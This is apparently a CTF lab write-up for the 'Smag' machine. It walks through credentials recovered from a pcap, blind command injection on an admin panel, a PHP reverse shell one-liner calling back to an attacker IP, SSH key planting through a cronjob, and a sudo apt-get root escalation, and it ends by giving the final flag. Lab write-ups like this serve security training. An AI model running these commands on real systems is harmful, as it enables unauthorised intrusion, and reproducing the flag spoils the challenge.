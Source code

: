 # writeups
smag.thm

--nmap info--
```
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Smag
```


users--
Jake
Uzi
NETADMIN

/server-status
/mail

I found a mail dir, really important because it has some indications
or something that help, I found a .pcap file in when I opened it I found
this `username=helpdesk&password=cH4nG3M3_n0w` and this are correct becuase
after I can see the redirection pass with success to this field, `development.smag.thm`. so
why not add that host to our, /etc/hosts, after I did that here a new dir on 
the webapp. Come to the admin panel I used the credentials that I found before to
login and there a panel command, so one thing I noted to this panel, you enter a command
but It doesn't answer but the command succeed, so one thing I did to verify that it by making 
`sudo tcpdump -i tun0 icmp`, on my machine, it's like a bind shell to my machine, so the
panel command gonna get a ping on mine and I'm gonna look if it really works, so it works that mean
the panel are fine,, let's see if a reverse shell works.

`php -r '$sock=fsockopen("10.8.91.36",1234);exec("/bin/sh -i <&3 >&3 2>&3");'` this one works, I reverse shell

here, I try to see home jake directory, but I could't open the *user.txt* because permission, I was 
looking in /opt dir and I found jake id_rsa.pub but that mean I can make an authorized_keys towards my machine
to get into the other, after generate the key and pass the key to the machine, so wait a moment to the cronjob
works and then I get a ssh with jake session.

I come read the user.txt and then check sudo file( sudo -l), I found apt-get with root perm, then go to gtfobins
and I took `sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh` and I got the root and the last flag is 

`uJr6zRgetaniyHVRqqL58uRasybBKz2T`





This help me alot sometime when I got stucked
https://0xnirvana.gitbook.io/writeups/tryhackme/easy/smag-grotto

email2web software had a bug nonFix
they had to migrate to  192.168.33.0/24 network to the 10.10.0.0/8
